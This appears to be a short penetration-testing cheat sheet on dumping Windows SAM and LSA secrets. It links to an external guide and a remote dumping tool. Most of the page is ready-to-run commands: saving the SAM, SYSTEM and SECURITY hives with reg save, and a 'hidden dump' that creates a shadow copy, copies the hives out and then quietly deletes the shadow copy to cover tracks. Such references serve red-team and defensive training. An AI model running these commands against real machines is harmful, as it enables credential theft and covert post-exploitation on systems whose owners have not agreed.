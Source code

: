 # SAM & LSA secrets

{% embed url="https://www.thehacker.recipes/ad/movement/credentials/dumping/sam-and-lsa-secrets#secrets-dump" %}

[**Remote dumper**](https://github.com/jfjallid/go-secdump)

### Dump <a href="#theory" id="theory"></a>

```powershell
reg save HKLM\SAM sam.save
reg save HKLM\SYSTEM system.save
reg save HKLM\SECURITY security.save
```

### Hidden dump

```powershell
wmic shadowcopy call create Volume='C:\'
```

list avaible shadow copies&#x20;

```powershell
vssadmin.exe list shadows
```

copy registry keys

```powershell
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SAM C:\ProgramData\SAM
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY C:\ProgramData\SECURITY
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\ProgramData\SYSTEM
```

remove shadow copy

```powershell
vssadmin.exe delete shadows /shadow={UUID} /quiet
```
